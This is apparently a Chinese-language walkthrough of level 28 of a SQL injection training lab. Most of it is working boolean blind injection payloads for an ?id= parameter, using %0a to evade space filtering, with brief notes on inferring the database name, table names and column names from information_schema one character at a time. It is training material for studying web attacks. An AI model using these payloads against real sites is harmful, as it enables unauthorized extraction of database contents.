

# 第二十八关
猜解库名长度
?id=1') and (length(database()))=8%0a and('1')=('1
利用ASCII码猜解当前数据库名称：
?id=1') and (ascii(substr(database(),1,1)))=115%0aand('1')=('1
 返回正常，说明数据库名称第一位是s
?id=1') and (ascii(substr(database(),2,1)))=101%0aand('1')=('1
 返回正常，说明数据库名称第二位是e
猜表名：
?id=1') and (ascii(substr((select%0atable_name%0afrom%0ainformation_schema.tables%0awhere%0a table_schema=database()%0alimit%0a0,1),1,1)))=101%0aand('1')=('1
 如果返回正常，说明数据库表名的第一个的第一位是e
猜字段名
and (ascii(substr((select%0acolumn_name%0afrom%0ainformation_schema.columns%0awhere%0a table_name='emails'%0alimit%0a0,1),1,1)))=105%0aand('1')=('1
 如果返回正常，说明emails表中的列名称第一位是i